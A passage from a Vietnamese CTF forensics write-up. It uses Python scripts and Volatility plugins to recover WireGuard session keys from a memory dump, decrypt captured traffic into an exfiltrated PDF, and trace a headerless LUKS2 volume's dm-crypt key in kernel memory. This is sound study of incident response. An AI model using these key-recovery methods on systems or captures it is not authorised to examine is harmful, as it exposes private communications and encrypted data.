        payload_length = struct.unpack_from("!H", plain, 4)[0]
        return 40 + payload_length <= len(plain)

    return False


def verify_key(
    key: bytes,
    packets: list[dict],
    expected_receiver: int,
) -> list[tuple[dict, bytes]]:
    verified: list[tuple[dict, bytes]] = []

    for packet in packets:
        if packet["receiver"] != expected_receiver:
            continue

        plaintext = decrypt_transport(key, packet)
        if plaintext is None:
            continue
        if not looks_like_inner_packet(plaintext):
            continue

        verified.append((packet, plaintext))

    return verified


def hunt_noise_keypair(mm: mmap.mmap, info: dict) -> list[dict]:
    client_index = info["initiation"]["sender"]
    server_index = info["response"]["sender"]

    client_outer_ip = info["initiation"]["src"]
    server_outer_ip = info["response"]["src"]

    client_to_server = [
        packet
        for packet in info["data"]
        if packet["src"] == client_outer_ip
    ]
    server_to_client = [
        packet
        for packet in info["data"]
        if packet["src"] == server_outer_ip
    ]

    print("\n[*] Scanning for active noise_keypair ...")
    print(f"    Client local index : {client_index:#010x}")
    print(f"    Server local index : {server_index:#010x}")
    print(f"    C->S packets       : {len(client_to_server)}")
    print(f"    S->C packets       : {len(server_to_client)}")

    needle = struct.pack("<I", client_index)

    raw_hits = 0
    layout_hits = 0
    results: list[dict] = []
    cursor = 0

    while True:
        index_hit = mm.find(needle, cursor)
        if index_hit < 0:
            break

        cursor = index_hit + 1
        raw_hits += 1

        base = index_hit - ENTRY_INDEX_OFF
        if base < 0 or base + RECEIVING_VALID_OFF + 1 > len(mm):
            continue

        entry_type = struct.unpack_from(
            "<I",
            mm,
            base + ENTRY_TYPE_OFF,
        )[0]

        if entry_type != INDEX_HASHTABLE_KEYPAIR:
            continue

        layout_hits += 1

        sending_key = bytes(
            mm[base + SENDING_KEY_OFF : base + SENDING_KEY_OFF + 32]
        )
        receiving_key = bytes(
            mm[base + RECEIVING_KEY_OFF : base + RECEIVING_KEY_OFF + 32]
        )

        sending_valid = mm[base + SENDING_VALID_OFF]
        receiving_valid = mm[base + RECEIVING_VALID_OFF]

        if sending_key == b"\x00" * 32:
            continue
        if receiving_key == b"\x00" * 32:
            continue
        if sending_valid not in (0, 1):
            continue
        if receiving_valid not in (0, 1):
            continue

        sending_verified = verify_key(
            sending_key,
            client_to_server,
            server_index,
        )
        receiving_verified = verify_key(
            receiving_key,
            server_to_client,
            client_index,
        )

        if not sending_verified and not receiving_verified:
            continue

        result = {
            "file_offset": base,
            "entry_index_offset": index_hit,
            "client_local_index": client_index,
            "server_local_index": server_index,
            "sending_is_valid": bool(sending_valid),
            "receiving_is_valid": bool(receiving_valid),
            "sending_key_hex": sending_key.hex(),
            "receiving_key_hex": receiving_key.hex(),
            "sending_verified_frames": [
                packet["frame"] for packet, _ in sending_verified
            ],
            "receiving_verified_frames": [
                packet["frame"] for packet, _ in receiving_verified
            ],
            "sending_first_plaintext_prefix_hex": (
                sending_verified[0][1][:32].hex()
                if sending_verified
                else None
            ),
            "receiving_first_plaintext_prefix_hex": (
                receiving_verified[0][1][:32].hex()
                if receiving_verified
                else None
            ),
        }
        results.append(result)

        print()
        print(f"[+] VERIFIED noise_keypair at file offset {base:#x}")
        print(f"    entry.index offset : {index_hit:#x}")
        print(f"    sending valid      : {bool(sending_valid)}")
        print(f"    receiving valid    : {bool(receiving_valid)}")
        print(f"    sending key        : {sending_key.hex()}")
        print(f"    receiving key      : {receiving_key.hex()}")

        if sending_verified:
            packet, plaintext = sending_verified[0]
            print(
                f"    sending verified   : {len(sending_verified)} packet(s), "
                f"first frame {packet['frame']}, counter {packet['counter']}, "
                f"plain prefix {plaintext[:16].hex() or '<keepalive>'}"
            )
        else:
            print("    sending verified   : NO")

        if receiving_verified:
            packet, plaintext = receiving_verified[0]
            print(
                f"    receiving verified : {len(receiving_verified)} packet(s), "
                f"first frame {packet['frame']}, counter {packet['counter']}, "
                f"plain prefix {plaintext[:16].hex() or '<keepalive>'}"
            )
        else:
            print("    receiving verified : NO")

    print()
    print(f"[*] Raw client-index hits : {raw_hits}")
    print(f"[*] Keypair-layout hits   : {layout_hits}")

    return results


def write_ephemeral_keylog(ephemeral_private: bytes) -> None:
    encoded = base64.b64encode(ephemeral_private).decode("ascii")

    Path("wg.keys").write_text(
        f"LOCAL_STATIC_PRIVATE_KEY = {CLIENT_STATIC_PRIVATE_B64}\n"
        f"REMOTE_STATIC_PUBLIC_KEY = {SERVER_STATIC_PUBLIC_B64}\n"
        f"LOCAL_EPHEMERAL_PRIVATE_KEY = {encoded}\n",
        encoding="ascii",
    )

    print(f"[+] LOCAL_EPHEMERAL_PRIVATE_KEY = {encoded}")
    print("[+] Wrote wg.keys")


def main() -> int:
    args = parse_args()
    memory = args.memory.resolve()
    pcap = args.pcap.resolve()

    if not memory.is_file():
        raise FindError(f"Memory dump not found: {memory}")
    if not pcap.is_file():
        raise FindError(f"PCAP not found: {pcap}")

    tshark = require_tshark()
    info = extract_capture_info(tshark, pcap)

    initiation = info["initiation"]
    response = info["response"]

    print("[+] WireGuard capture:")
    print(
        f"    initiation frame={initiation['frame']} "
        f"sender={initiation['sender']:#x} "
        f"{initiation['src']} -> {initiation['dst']}"
    )
    print(
        f"    client ephemeral public="
        f"{initiation['ephemeral'].hex()}"
    )
    print(
        f"    response   frame={response['frame']} "
        f"sender={response['sender']:#x} "
        f"receiver={response['receiver']:#x} "
        f"{response['src']} -> {response['dst']}"
    )
    print(
        f"    server ephemeral public="
        f"{response['ephemeral'].hex()}"
    )
    print(f"    transport packets={len(info['data'])}")

    with memory.open("rb") as file_handle:
        mm = mmap.mmap(
            file_handle.fileno(),
            0,
            access=mmap.ACCESS_READ,
        )

        try:
            ephemeral_private = hunt_ephemeral_private(mm, info)
            keypairs = hunt_noise_keypair(mm, info)
        finally:
            mm.close()

    if ephemeral_private is not None:
        write_ephemeral_keylog(ephemeral_private)

    if keypairs:
        Path("wg_session_keys.json").write_text(
            json.dumps(keypairs, indent=2),
            encoding="utf-8",
        )
        print("[+] Wrote wg_session_keys.json")

    if ephemeral_private is None and not keypairs:
        print(
            "[-] No ephemeral private key or cryptographically verified "
            "noise_keypair was recovered.",
            file=sys.stderr,
        )
        return 2

    return 0


if __name__ == "__main__":
    try:
        raise SystemExit(main())
    except FindError as exc:
        print(f"[-] {exc}", file=sys.stderr)
        raise SystemExit(1)
```
sau khi có và giải mã traffic rồi ta chỉ việc lấy nội dung từ traffic đó giải mã cái file pdf đã truyền thôi
script mình dùng để giải mã sau khi có key
```
from __future__ import annotations

import argparse
import hashlib
import json
import re
import shutil
import socket
import struct
import subprocess
import sys
from collections import defaultdict
from pathlib import Path

try:
    from cryptography.hazmat.primitives.ciphers.aead import AESGCM, ChaCha20Poly1305
except ImportError:
    raise SystemExit("Missing dependency: python3 -m pip install cryptography")

SECRET = b"https://www.youtube.com/watch?v=oHafFDkFgeg"
INNER_SRC = "10.0.0.2"
INNER_DST = "10.0.0.1"
INNER_DPORT = 9999


class AppError(RuntimeError):
    pass


def args():
    p = argparse.ArgumentParser()
    p.add_argument("pcap", nargs="?", type=Path, default=Path("capture.pcapng"))
    p.add_argument("keys", nargs="?", type=Path, default=Path("wg_session_keys.json"))
    p.add_argument("-o", "--output", type=Path, default=Path("dummy.pdf"))
    return p.parse_args()


def need_tshark():
    t = shutil.which("tshark")
    if not t:
        raise AppError("tshark not found")
    return t


def tshark_rows(tshark, pcap):
    cmd = [
        tshark,
        "-n",
        "-r",
        str(pcap),
        "-Y",
        "wg",
        "-T",
        "fields",
        "-E",
        "separator=\t",
        "-E",
        "occurrence=f",
        "-e",
        "frame.number",
        "-e",
        "ip.src",
        "-e",
        "ip.dst",
        "-e",
        "udp.payload",
    ]
    r = subprocess.run(cmd, text=True, capture_output=True, check=False)
    if r.returncode != 0:
        raise AppError(r.stderr.strip())
    out = []
    for line in r.stdout.splitlines():
        if line.strip():
            cols = line.rstrip("\r\n").split("\t")
            cols += [""] * (4 - len(cols))
            out.append(cols[:4])
    return out


def raw_bytes(s):
    h = s.strip().replace(":", "").replace(" ", "")
    if not h:
        return b""
    if re.fullmatch(r"[0-9a-fA-F]+", h) and len(h) % 2 == 0:
        return bytes.fromhex(h)
    raise AppError(f"bad hex field: {s!r}")


def parse_wg(raw, frame, src, dst):
    if len(raw) < 4:
        raise AppError(f"frame {frame}: short packet")
    typ = struct.unpack_from("<I", raw, 0)[0]
    pkt = {"frame": frame, "type": typ, "src": src, "dst": dst, "raw": raw}
    if typ == 1:
        if len(raw) < 40:
            raise AppError(f"frame {frame}: short initiation")
        pkt["sender"] = struct.unpack_from("<I", raw, 4)[0]
        pkt["receiver"] = None
        pkt["ephemeral"] = raw[8:40]
    elif typ == 2:
        if len(raw) < 44:
            raise AppError(f"frame {frame}: short response")
        pkt["sender"] = struct.unpack_from("<I", raw, 4)[0]
        pkt["receiver"] = struct.unpack_from("<I", raw, 8)[0]
        pkt["ephemeral"] = raw[12:44]
    elif typ == 4:
        if len(raw) < 32:
            raise AppError(f"frame {frame}: short transport")
        pkt["receiver"] = struct.unpack_from("<I", raw, 4)[0]
        pkt["counter"] = struct.unpack_from("<Q", raw, 8)[0]
        pkt["encrypted"] = raw[16:]
    return pkt


def load_capture(pcap):
    if not pcap.is_file():
        raise AppError(f"missing pcap: {pcap}")
    init = None
    resp = None
    data = []
    for f, src, dst, payload in tshark_rows(need_tshark(), pcap):
        if not f or not payload:
            continue
        pkt = parse_wg(raw_bytes(payload), int(f, 0), src, dst)
        if pkt["type"] == 1 and init is None:
            init = pkt
        elif pkt["type"] == 2 and resp is None:
            resp = pkt
        elif pkt["type"] == 4:
            data.append(pkt)
    if init is None or resp is None or not data:
        raise AppError("missing WireGuard handshake or transport packets")
    if resp["receiver"] != init["sender"]:
        raise AppError("handshake index mismatch")
    return {"init": init, "resp": resp, "data": data}


def load_keys(path):
    if not path.is_file():
        raise AppError(f"missing keys json: {path}")
    data = json.loads(path.read_text(encoding="utf-8"))
    if isinstance(data, dict):
        data = [data]
    if not data:
        raise AppError("empty keys json")
    data.sort(
        key=lambda x: len(x.get("sending_verified_frames") or []) + len(x.get("receiving_verified_frames") or []),
        reverse=True,
    )
    k = data[0]
    send = bytes.fromhex(k["sending_key_hex"])
    recv = bytes.fromhex(k["receiving_key_hex"])
    if len(send) != 32 or len(recv) != 32:
        raise AppError("bad WireGuard key length")
    return send, recv


def wg_decrypt(key, pkt):
    nonce = b"\x00" * 4 + struct.pack("<Q", pkt["counter"])
    return ChaCha20Poly1305(key).decrypt(nonce, pkt["encrypted"], None)


def trim_ip(p):
    if p == b"":
        return b""
    if not p:
        return None
    v = p[0] >> 4
    if v == 4:
        if len(p) < 20:
            return None
        ihl = (p[0] & 15) * 4
        total = struct.unpack_from("!H", p, 2)[0]
        if ihl < 20 or total < ihl or total > len(p):
            return None
        return p[:total]
    if v == 6:
        if len(p) < 40:
            return None
        total = 40 + struct.unpack_from("!H", p, 4)[0]
        if total > len(p):
            return None
        return p[:total]
    return None


def decrypt_inner(cap, send, recv):
    init = cap["init"]
    resp = cap["resp"]
    client_ip = init["src"]
    server_ip = resp["src"]
    client_idx = init["sender"]
    server_idx = resp["sender"]
    inner = []
    fail = 0
    keepalive = 0
    for pkt in cap["data"]:
        if pkt["src"] == client_ip and pkt["receiver"] == server_idx:
            key = send
        elif pkt["src"] == server_ip and pkt["receiver"] == client_idx:
            key = recv
        else:
            fail += 1
            continue
        try:
            plain = wg_decrypt(key, pkt)
        except Exception:
            fail += 1
            continue
        ip = trim_ip(plain)
        if ip is None:
            fail += 1
            continue
        if ip == b"":
            keepalive += 1
            continue
        inner.append(ip)
    if not inner:
        raise AppError("no inner packets decrypted")
    Path("inner_packets.bin").write_bytes(b"".join(inner))
    print(f"inner packets: {len(inner)}")
    print(f"keepalives: {keepalive}")
    print(f"failed: {fail}")
    return inner


def ip4(b):
    return socket.inet_ntoa(b)


def tcp_info(pkt):
    if len(pkt) < 20 or pkt[0] >> 4 != 4:
        return None
    ihl = (pkt[0] & 15) * 4
    total = struct.unpack_from("!H", pkt, 2)[0]
    if ihl < 20 or total < ihl or total > len(pkt) or pkt[9] != 6:
        return None
    tcp = pkt[ihl:total]
    if len(tcp) < 20:
        return None
    sport, dport = struct.unpack_from("!HH", tcp, 0)
    seq = struct.unpack_from("!I", tcp, 4)[0]
    off = (tcp[12] >> 4) * 4
    if off < 20 or off > len(tcp):
        return None
    return {
        "src": ip4(pkt[12:16]),
        "dst": ip4(pkt[16:20]),
        "sport": sport,
        "dport": dport,
        "seq": seq,
        "payload": tcp[off:],
    }


def assemble(segs):
    if not segs:
        raise AppError("no TCP payload")
    segs = sorted(segs, key=lambda x: x[0])
    base = min(s for s, p in segs)
    end = max(s + len(p) for s, p in segs)
    buf = bytearray(end - base)
    mark = bytearray(end - base)
    for seq, payload in segs:
        start = seq - base
        for i, v in enumerate(payload):
            pos = start + i
            if mark[pos]:
                if buf[pos] != v:
                    raise AppError(f"TCP overlap conflict at {pos}")
                continue
            buf[pos] = v
            mark[pos] = 1
    if not all(mark):
        raise AppError(f"TCP gap at {mark.index(0)}")
    return bytes(buf)


def build_stream(inner):
    flows = defaultdict(list)
    for pkt in inner:
        t = tcp_info(pkt)
        if not t or not t["payload"]:
            continue
        flow = (t["src"], t["sport"], t["dst"], t["dport"])
        flows[flow].append((t["seq"], t["payload"]))
    cands = [
        (flow, segs)
        for flow, segs in flows.items()
        if flow[0] == INNER_SRC and flow[2] == INNER_DST and flow[3] == INNER_DPORT
    ]
    if not cands:
        raise AppError("no exfil flow 10.0.0.2 -> 10.0.0.1:9999")
    cands.sort(key=lambda x: sum(len(p) for _, p in x[1]), reverse=True)
    flow, segs = cands[0]
    stream = assemble(segs)
    Path("inner_tcp_stream.bin").write_bytes(stream)
    print(f"flow: {flow[0]}:{flow[1]} -> {flow[2]}:{flow[3]}")
    print(f"segments: {len(segs)}")
    print(f"stream bytes: {len(stream)}")
    return stream


def decrypt_pdf(stream):
    if len(stream) < 4:
        raise AppError("stream too short")
    n = struct.unpack_from("!I", stream, 0)[0]
    if n > len(stream) - 4:
        raise AppError(f"blob length {n} exceeds available {len(stream) - 4}")
    blob = stream[4:4 + n]
    Path("upload_blob.bin").write_bytes(blob)
    if len(blob) < 28:
        raise AppError("blob too short")
    nonce = blob[:12]
    data = blob[12:]
    key = hashlib.sha256(SECRET).digest()
    print(f"blob bytes: {len(blob)}")
    print(f"nonce: {nonce.hex()}")
    print(f"aes key: {key.hex()}")
    return AESGCM(key).decrypt(nonce, data, None)


def main():
    a = args()
    cap = load_capture(a.pcap)
    send, recv = load_keys(a.keys)
    print(f"sending key: {send.hex()}")
    print(f"receiving key: {recv.hex()}")
    inner = decrypt_inner(cap, send, recv)
    stream = build_stream(inner)
    pdf = decrypt_pdf(stream)
    a.output.write_bytes(pdf)
    print(f"wrote {a.output} ({len(pdf)} bytes)")
    print(f"sha256: {hashlib.sha256(pdf).hexdigest()}")
    if pdf.startswith(b"%PDF"):
        print("PDF magic OK")


if __name__ == "__main__":
    try:
        main()
    except AppError as e:
        print(f"error: {e}", file=sys.stderr)
        raise SystemExit(1)

```

ta có được part 3 của challenge w1r3gu4rd_3xf1l_brrr_brrr_brrr!!} 
Sau đó ta sẽ chuyển qua tìm 2 part còn lại, ta đã xong phần pcap nên khả năng các part flag sẽ được giấu trong 2 chỗ còn lại là từ ram và từ disk, tiếp tục phân tích trong ram bằng plugin psaux nó tương tự như pslist hay psscan của window.
```
4718    2       kworker/R-kdmfl [kworker/R-kdmfl]
4719    2       kworker/R-kcryp [kworker/R-kcryp]
4720    2       kworker/R-kcryp [kworker/R-kcryp]
4721    2       dmcrypt_write/2 [dmcrypt_write/2]
4749    2       jbd2/dm-0-8     [jbd2/dm-0-8]
4750    2       kworker/R-ext4- [kworker/R-ext4-]
```
ở đây có thể khẳng định được rằng có dm-crypt đang active và có một ext4 đang được ghi lại ở dm-0, vì vậy có thể suy đoán cái file disk của ta đã bị mã hóa, nó trả lời đc cho việc tại sao không thể dùng ftk-imager đọc như bình thường được
dựa vào thông tin thu thập được ta sẽ dùng plugin mountinfo và thu thập được.
```
4026531832  32  43  252:0  /  /home/dev5812/dev_mnt  rw,relatime  ext4  /dev/mapper/dev_volume  rw
```
ta suy ra được đây là đường dẫn của file đã bị mã hóa.
tiếp theo ta sẽ dùng plugin pagecache.Files để xem có những inode nào đang hoạt động trong bộ nhớ đệm và grep theo dev_volume ta sẽ có được một loạt thông tin như sau
```
0x8a72855da800  /run    0:28    3855    0x8a7293941e98  DIR     1       0       drwxr-xr-x      2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  /run/udev/links/disk\x2fby-id\x2fdm-name-dev_volume     60
0x8a72855da800  /run    0:28    3856    0x8a73354cd898  LNK     1       0       lrwxrwxrwx      2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  /run/udev/links/disk\x2fby-id\x2fdm-name-dev_volume/b252:0 -> 0:/dev/dm-0       11
0x8a72855da800  /run    0:28    3849    0x8a7297070398  DIR     1       0       drwxr-xr-x      2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  /run/udev/links/disk\x2fby-id\x2fdm-uuid-CRYPT-LUKS2-fee4d3439d49470d831500fb0e3101a0-dev_volume        60
0x8a72855da800  /run    0:28    3850    0x8a7297073698  LNK     1       0       lrwxrwxrwx      2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  /run/udev/links/disk\x2fby-id\x2fdm-uuid-CRYPT-LUKS2-fee4d3439d49470d831500fb0e3101a0-dev_volume/b252:0 -> 0:/dev/dm-0  11
0x8a72855da800  /run    0:28    3846    0x8a72b0614698  DIR     1       0       drwxr-xr-x      2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  /run/udev/links/mapper\x2fdev_volume    60
0x8a72855da800  /run    0:28    3847    0x8a72ab76cc98  LNK     1       0       lrwxrwxrwx      2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  /run/udev/links/mapper\x2fdev_volume/b252:0 -> 0:/dev/dm-0      11
0x8a7281804800  /dev    0:7     943     0x8a73354ccc98  LNK     1       0       lrwxrwxrwx      2026-06-27 23:18:27.000000 UTC  2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  /dev/disk/by-id/dm-name-dev_volume -> ../../dm-010
0x8a7281804800  /dev    0:7     941     0x8a7296614098  LNK     1       0       lrwxrwxrwx      2026-06-27 23:18:27.000000 UTC  2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  /dev/disk/by-id/dm-uuid-CRYPT-LUKS2-fee4d3439d49470d831500fb0e3101a0-dev_volume -> ../../dm-0   10
0x8a7281804800  /dev    0:7     940     0x8a728619c098  LNK     1       0       lrwxrwxrwx      2026-06-27 23:18:41.000000 UTC  2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  /dev/mapper/dev_volume -> ../dm-0       7

```
ở đây có thể thấy luôn dev_volume đã được mã hóa bằng LUKS2 và ta sẽ dùng cryptsetup để mở lại nó 
ở đây khi ta kiểm tra
```
┌──(venv)(vuanh㉿Vanh)-[/mnt/d/Data/chall/htb/chall5]
└─$ sudo cryptsetup luksDump dev_disk.img
Device dev_disk.img is not a valid LUKS device.
```
ta nhận ra nó ko có luks header vậy nên nghĩ tới 1 giả thuyết, vì trước đó ta biết dev_volume là luks cơ mà ko thấy header vậy khả năng cao là nó đã bị loại bỏ khỏi dev_disk vậy nên khi mở cryptsetup thì key và header nó phải được đưa vào từ đâu đó thì mới dùng được, ta sẽ check journal để tìm kiếm.
Đầu tiên ta cần khôi phục các log journel bằng plugin recoveredFS ở pagecache
```
 find pagecach_fs -type f -path '*/var/log/journal/*.journal'
pagecach_fs/73eb679e-6973-4f5a-be4e-6d53c8515829/var/log/journal/e83898d794fa4a08b6964d02d4a467fb/system.journal
pagecach_fs/73eb679e-6973-4f5a-be4e-6d53c8515829/var/log/journal/e83898d794fa4a08b6964d02d4a467fb/system@9efd98f8d2ed4fb392cfca25a300affc-0000000000000001-000652f3a66194fa.journal
pagecach_fs/73eb679e-6973-4f5a-be4e-6d53c8515829/var/log/journal/e83898d794fa4a08b6964d02d4a467fb/system@9efd98f8d2ed4fb392cfca25a300affc-00000000000043c7-0006538743a4ad58.journal
pagecach_fs/73eb679e-6973-4f5a-be4e-6d53c8515829/var/log/journal/e83898d794fa4a08b6964d02d4a467fb/system@9efd98f8d2ed4fb392cfca25a300affc-000000000000835b-000653963aa44b19.journal
pagecach_fs/73eb679e-6973-4f5a-be4e-6d53c8515829/var/log/journal/e83898d794fa4a08b6964d02d4a467fb/user-1000.journal
```
sau đó ta sẽ dùng journalctl để đọc file thì thấy được
```
┌──(venv)(vuanh㉿Vanh)-[/mnt/d/Data/chall/htb/chall5]
└─$ journalctl --directory pagecach_fs/73eb679e-6973-4f5a-be4e-6d53c8515829/var/log/journal/e83898d794fa4a08b6964d02d4a467fb --no-pager -o short-iso | grep -F 'cryptsetup open'
Journal file /mnt/d/Data/chall/htb/chall5/pagecach_fs/73eb679e-6973-4f5a-be4e-6d53c8515829/var/log/journal/e83898d794fa4a08b6964d02d4a467fb/system@000652f4e7e9aa69-e9cfbeffd72f9c29.journal~ is truncated, ignoring file.
2026-06-28T06:06:51+07:00 dev-seal-forge-02 sudo[4453]: dev5812 : TTY=/dev/pts/0 ; PWD=/home/dev5812 ; USER=root ; COMMAND=/usr/sbin/cryptsetup open --key-file /run/media/dev5812/dev_usb/luks_keyfile --header /run/media/dev5812/dev_usb/dev_header.img ./dev_disk.img dev_volume
```
ở đây ta thu được header nó sẽ nằm ở
`/run/media/dev5812/dev_usb/dev_header.img`
và key sẽ là 
```/run/media/dev5812/dev_usb/luks_keyfile```
ở đây ta biết key và header đều nằm trong usb nên sẽ tiến hành khôi phục bằng recover_fs, tuy nhiên trong quá trình khôi phục thì mình không tìm được 2 cái này sau khi đã khôi phục pagecache fs nên ta sẽ chuyển sang môt hướng khác dựa theo tài liệu của cryptsetup
https://man7.org/linux/man-pages/man8/cryptsetup.8.html
https://man7.org/linux/man-pages/man8/cryptsetup-luksDump.8.html
qua 2 tài liệu này ta biết được dmcrypt sẽ decrypt/encrypt thông tin từ disk và thông qua mapping ta có thể đọc được nó, và key để dmcrypt giải sẽ được lưu trong kernel, trong tài liệu có nói
```
--volume-key-file option, the volume key is dumped to a file
instead of standard output. Beware that the volume key cannot be
changed without reencryption and can be used to decrypt the data
stored in the LUKS container without a passphrase and even without
the LUKS header
```
đây có thể là hướng ta đang tìm kiếm vì khi có được key này ta sẽ ko cần header luks để mở nữa và có thể trực tiếp decrypt ra dữ liệu luôn.
ở tài liệu này
https://www.kernel.org/doc/html/latest/admin-guide/device-mapper/dm-crypt.html
ta thấy được cấu trúc để có thể dùng
```
<cipher> <key> <iv_offset> <device path> \
<offset> [<#opt_params> <opt_params>]
```
vì vậy thì ngoài key ta cũng cần tìm thêm một số cái khác để có thể giải mã ra được cypher.
ở đây mình đã vibecode ra một vài plugins có thể dùng để giải quyết challenge này https://github.com/VanhNguyen2710/volatility3-dmcrypt-plugins.

ban đầu ta dùng linux.bdevinodes để tìm ra inode của cái map
```
┌──(venv)(vuanh㉿Vanh)-[/mnt/d/Data/chall/htb/chall5]
└─$ vol -f memory.elf linux.bdevinodes
Volatility 3 Framework 2.28.0
Progress:  100.00               Stacking attempts finished
Major   Minor   RawDev  Inode   Mapping NrPages Size

252     0       0xfc00000       0x8a733676a470  0x8a733676a5e0  69      1069547520
```
ở đây ta thấy được đúng cái cần tìm và nó có inode là 0x8a733676a470.

Sau đó ta sử dụng plugin linux.dmcryptprobe với inode là 0x8a733676a470 tìm được từ trước sẽ thấy

```
object:dm_target[0]     <address>       0x8a729bd13840
object:dm_target[0]     table   152224681931264 (0x8a729217b200) [symbol_table_name1!pointer]
object:dm_target[0]     type    281473913157664 (0xffffc09b7820) [symbol_table_name1!pointer]
object:dm_target[0]     begin   0 (0x0) [symbol_table_name1!long long unsigned int]
object:dm_target[0]     len     2088960 (0x1fe000) [symbol_table_name1!long long unsigned int]
object:dm_target[0]     max_io_len      0 (0x0) [symbol_table_name1!unsigned int]
object:dm_target[0]     num_flush_bios  1 (0x1) [symbol_table_name1!unsigned int]
object:dm_target[0]     num_discard_bios        0 (0x0) [symbol_table_name1!unsigned int]
object:dm_target[0]     num_secure_erase_bios   0 (0x0) [symbol_table_name1!unsigned int]
object:dm_target[0]     num_write_zeroes_bios   0 (0x0) [symbol_table_name1!unsigned int]
object:dm_target[0]     per_io_data_size        824 (0x338) [symbol_table_name1!unsigned int]
object:dm_target[0]     private 152224845071360 (0x8a729bd10400) [symbol_table_name1!pointer]
object:dm_target[0]     error   281473859206126 (0xffffbd643bee) [symbol_table_name1!pointer]
object:dm_target[0]     accounts_remapped_io    1 (0x1) [symbol_table_name1!bitfield]
object:dm_target[0]     discards_supported      0 (0x0) [symbol_table_name1!bitfield]
object:dm_target[0]     emulate_zone_append     0 (0x0) [symbol_table_name1!bitfield]
object:dm_target[0]     flush_supported 0 (0x0) [symbol_table_name1!bitfield]
object:dm_target[0]     limit_swap_bios 1 (0x1) [symbol_table_name1!bitfield]
object:dm_target[0]     max_discard_granularity 0 (0x0) [symbol_table_name1!bitfield]
object:dm_target[0]     needs_bio_set_dev       0 (0x0) [symbol_table_name1!bitfield]
object:dm_target[0]     zone_reset_all_supported        0 (0x0) [symbol_table_name1!bitfield]
object:dm_target[0]     flush_bypasses_map      0 (0x0) [symbol_table_name1!bitfield]
object:dm_target[0]     mempool_needs_integrity 0 (0x0) [symbol_table_name1!bitfield]
chain   crypt_config    0x8a729bd10400
object:crypt_config     <address>       0x8a729bd10400; type unavailable

```
ở đây ta thấy `object:dm_target[0]     private 152224845071360 (0x8a729bd10400) [symbol_table_name1!pointer]
` đây là dữ liệu của target và như ta biết trước thì đây là mapping của dmcrypt vậy nên có thể suy ra đây chính là chứa các thông tin mình cần để giải dữ liệu bên trong
sau đó dump ra plugin linux.cryptconfigdump từ address có được

```
┌──(venv)(vuanh㉿Vanh)-[/mnt/d/Data/chall/htb/chall5]
└─$ vol -f memory.elf -o cryptconfig_dump linux.cryptconfigdump --address 0x8a729bd10400 --length 0x800
Volatility 3 Framework 2.28.0
Progress:  100.00               Stacking attempts finished
Address BytesDumped     OutputFile      First64Bytes

0x8a729bd10400  2048    crypt_config_0x8a729bd10400_0x800.bin   d8 30 52 ab 72 8a ff ff 00 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00 00 00 00 50 d9 6f b0 72 8a ff ff 58 25 66 35 73 8a ff ff 88 46 a4 be ff ff ff ff 00 c4 d1 9b 72 8a ff ff
```
mà ở đây ta biết được đó là field pointer tức là nó sẽ trỏ tới các object khác vì vậy mình sẽ dùng script để lọc các pointer ra, vì thường các địa chỉ trong kernel sẽ có dạng 0xffff... nên mình sẽ dùng 1 script lọc các địa chỉ này trong file vừa dump sau đó dump các vùng đó ra bằng plugin linux.cryptconfigdump và in nội dung của từng phần ra, ngoài ra script cũng tìm những phần cần thiết để giải mã ở các field bình thường có trong cryptconfig_dump
```
<cipher> <key> <iv_offset> <device path> \
<offset> [<#opt_params> <opt_params>]
```
đây là script mình dùng
```
from pathlib import Path
import shutil
import struct
import subprocess
import sys

MEMORY = "memory.elf"
VOL = "vol"

CRYPTCONFIG_BASE = 0x8a729bd10400
CRYPTCONFIG_LEN = 0x800
SCAN_LEN = 0x300
PTR_DUMP_LEN = 0x400

CC_FILE = Path("cryptconfig_dump/crypt_config_0x8a729bd10400_0x800.bin")

OUT_DIR = Path("cryptconfig_ptrs_full_view")
LOG_DIR = Path("logs")

KEYWORDS = [
    "serpent", "xts", "plain", "plain64",
    "logon", "cryptsetup", "dm-crypt",
    "dev_volume", "luks", "key", "cipher",
    "kcryptd", "252:0",
]

KERNEL_STATIC_BASE = 0xffffffff00000000
PTR_MASK_48 = 0x0000ffffffffffff

REPORT_LINES = []


def emit(line=""):
    print(line)
    REPORT_LINES.append(line)


def die(msg):
    print(f"[-] {msg}", file=sys.stderr)
    raise SystemExit(1)


def run(cmd, log_path):
    p = subprocess.run(
        [str(x) for x in cmd],
        text=True,
        stdout=subprocess.PIPE,
        stderr=subprocess.STDOUT,
    )
    log_path.write_text(p.stdout, encoding="utf-8", errors="replace")
    return p


def ensure_cryptconfig_dump():
    if CC_FILE.exists():
        return

    emit(f"[!] missing {CC_FILE}")
    emit("[+] dumping crypt_config first")

    CC_FILE.parent.mkdir(parents=True, exist_ok=True)

    cmd = [
        VOL,
        "-f", MEMORY,
        "-o", str(CC_FILE.parent),
        "linux.cryptconfigdump",
        "--address", hex(CRYPTCONFIG_BASE),
        "--length", hex(CRYPTCONFIG_LEN),
    ]

    p = run(cmd, LOG_DIR / "cryptconfigdump.txt")
    if p.returncode != 0:
        die(f"cryptconfigdump failed, see {LOG_DIR / 'cryptconfigdump.txt'}")

    if not CC_FILE.exists():
        die(f"cryptconfigdump ran but expected file not found: {CC_FILE}")


def extract_strings(data, min_len=3):
    out = []
    cur = bytearray()

    for b in data:
        if 32 <= b <= 126:
            cur.append(b)
        else:
            if len(cur) >= min_len:
                out.append(cur.decode("ascii", errors="replace"))
            cur.clear()

    if len(cur) >= min_len:
        out.append(cur.decode("ascii", errors="replace"))

    return out


def u64(data, off):
    return struct.unpack_from("<Q", data, off)[0]


def u32(data, off):
    return struct.unpack_from("<I", data, off)[0]


def u16(data, off):
    return struct.unpack_from("<H", data, off)[0]


def u8(data, off):
